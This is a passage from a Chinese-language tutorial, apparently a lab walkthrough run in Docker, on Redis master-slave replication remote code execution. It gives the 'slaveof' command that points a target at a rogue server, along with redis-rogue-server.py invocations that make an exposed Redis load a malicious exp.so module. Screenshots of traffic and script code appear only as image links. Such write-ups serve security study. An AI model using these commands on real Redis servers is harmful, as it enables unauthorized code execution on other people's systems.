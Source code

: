 然后 设置主从关系`slaveof 172.17.0.1 21000` 这样全同步的数据就会储存在`exp。so`文件里，具体内容由脚本完成

![QQ截图20200809162718.png](https://i.loli.net/2020/08/09/viPMxTXq2As5h3y.png)



![QQ截图20200809162736.png](https://i.loli.net/2020/08/09/2ZBFTQUu1mD8esk.png)



具体关键流量如下

![QQ截图20200809163301.png](https://i.loli.net/2020/08/09/nU9gBmsO3EM4qre.png)





脚本关键代码 

![QQ截图20200809163521.png](https://i.loli.net/2020/08/09/kECePH2dfIMspRQ.png)



![QQ截图20200809163546.png](https://i.loli.net/2020/08/09/RImK129dBC8tylh.png)





## 利用二： 主动连接

适用于目标Redis服务处于外网的情况

- 外网Redis未授权访问
- 已知外网Redis口令



在公网服务器创建恶意redis服务

```
python redis-rogue-server.py --server-only
```



然后执行脚本

```
python redis-rogue-server.py --lhost 远程ip --lport 恶意端口 --rhost 目标机器 --rport redis端口
```





这里用docker演示

开起脚本后

```
 python redis-rogue-server.py --lhost 172.17.0.1 --lport 21000 --rhost 172.17.0.3 --rport 6379
```


